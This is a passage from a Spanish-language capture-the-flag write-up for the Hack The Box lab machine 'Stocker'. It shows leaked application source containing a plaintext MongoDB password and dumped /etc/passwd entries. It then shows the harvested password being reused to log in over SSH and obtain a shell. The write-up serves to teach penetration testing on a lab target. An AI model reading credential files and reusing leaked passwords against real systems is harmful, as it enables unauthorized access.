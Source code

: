 ```javascript
                if (!req.session.user) return res.json({});
                if (!req.body.basket) return res.json({
                    success: false
                });
                const order = new mongoose.model("Order")({
                            items: req.body.basket.map((item) => ({
                                title: item.title,
                                price: item.price,
                                amount: item.amount
                            })),
```

Si analizamos bien el codigo, logramos ver en la parte superior credenciales de acceso a la base de datos `const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?`

Tambien tenemos un usuario del sistema llamado "`angoose`"

```bash
root:x:0:0:root:/root:/bin/bash
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

Probamos las credenciales que encontramos via ssh por el puerto 22 con el usuario angoose

```bash
ssh angoose@stocker.htb
Password:IHeardPassphrasesArePrettySecure
```

```bash
angoose@stocker:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.196  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:b9:4d:1b  txqueuelen 1000  (Ethernet)
        RX packets 148246  bytes 13714635 (13.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 127921  bytes 19524574 (19.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 15696  bytes 2585569 (2.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15696  bytes 2585569 (2.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

angoose@stocker:~$ hostname -I
10.10.11.196
```
Bingo!!!! Tenemos una shell por ssh, en esta parte ya podriamos ver la flag de user.txt, ahora solo quedaria enumerar el sistema y escalar privilegios.
